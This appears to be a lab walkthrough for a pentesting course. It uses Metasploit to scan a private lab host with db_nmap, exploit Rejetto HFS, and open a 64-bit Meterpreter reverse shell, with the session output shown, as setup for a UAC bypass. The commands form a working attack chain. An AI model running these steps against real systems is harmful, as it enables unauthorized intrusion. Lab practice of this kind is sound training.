 In order to perform this, you're going to need to have access to the target system via a Meterpreter session or a Meterpreter shell. And in addition to that, you also must ensure that the Meterpreter session or the Meterpreter payload being used is the 64-bit version as opposed to the 32-bit version.

Target IP Address: 10.2.29.131

Start up the PostgreSQL database service.

```
service postgresql start && msfconsole
```

Create a new workspace.

```
workspace -a UACBypass
```

Set up the global variable for the RHOSTS option.

```
setg RHOSTS 10.2.29.131
```

We now need to perform an Nmap scan on the target server to identify what services are running on it, and consequently, exploit one of the services in order to gain access to the target system, so that we can get a Meterpreter session, after which we can take a look at how to elevate our privileges.

We'll use the `db_nmap` command to perform an Nmap scan from within the MSF console. And this command will allow us to consequently save the Nmap scan results directly into the MSF database. And we can then access the results whenever we want.

`-sV`: We're going to perform some service version detection.

```
db_nmap -sV 10.2.29.131
```

```
search rejetto
use exploit/windows/http/rejetto_hfs_exec
```

We then need to set the payload to the 64-bit Meterpreter payload because this is what will be required in order to successfully bypass UAC or to elevate our privileges.

```
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST eth1
run
```

`getuid`: What user we currently have access to by typing in Get User ID.

```
meterpreter > sysinfo
meterpreter > getuid
Server username: VICTIM\admin
```
